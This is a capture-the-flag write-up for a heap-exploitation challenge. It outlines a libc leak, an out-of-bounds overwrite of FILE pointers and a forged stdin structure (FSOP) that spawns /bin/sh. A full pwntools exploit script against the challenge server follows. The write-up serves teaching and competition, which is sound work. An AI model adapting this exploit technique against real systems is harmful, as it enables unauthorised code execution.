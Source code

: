 This led me to be very confused on where to start attacking.

Ultimately, I found the most straightforward way for me

1. Leak LIBC by allocating huge MMAPed chunk using vulnerability 3
2. If we set index of buffer to 1 initially, we will write out of bounds at -1. This allows us to have a powerful overflow using vulnerability 1, and overwrite the pointer of all the buffers as well as the file pointer
3. Overwrite all pointers with stdin, and remember not to destroy stdout pointer.
4. Before program exits, it calls fread(stdin, buffer_size, 1, stdin)
5. Overwrite stdin file structure to call system("/bin/sh") on exiting the program using FSOP

```python
from pwn import *

context.binary = libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
# p = process("./chall")
p = remote("win.the.seetf.sg", 2003)

p.sendlineafter(b"allocate?\n", b"-4000000000")
p.sendlineafter(b"(1-3)\n", b"1")
p.recvuntil(b"chunk @ ")
leak = int(p.recvline().strip(), 16)
libc.address = leak + 294981616

log.info(f"leak @ {hex(leak)}")
log.info(f"libc base @ {hex(libc.address)}")

p.sendlineafter(b"Content: ", b"just for lols")
# gdb.attach(p)

p.sendlineafter(b"Content: ", b"A"*8 + p64(libc.sym._IO_2_1_stdin_-1)*3 + b"A"*24 + p64(libc.sym._IO_2_1_stdout_) + b"B"*0x318 + p64(libc.sym._IO_2_1_stdin_))

standard_FILE_addr = libc.sym._IO_2_1_stdin_

fs = FileStructure()
fs.flags = unpack("  " + "sh".ljust(6, "\x00"), 64)  # "  sh"
fs._IO_write_base = 0
fs._IO_write_ptr = 1
# fs._mode = 0
fs._lock = standard_FILE_addr-0x10
fs.chain = libc.sym.system
fs._codecvt = standard_FILE_addr
fs._wide_data = standard_FILE_addr - 0x48
fs.vtable = libc.sym._IO_wfile_jumps

p.send(bytes(fs))
p.sendline(b"A"*0x100)

p.interactive()```
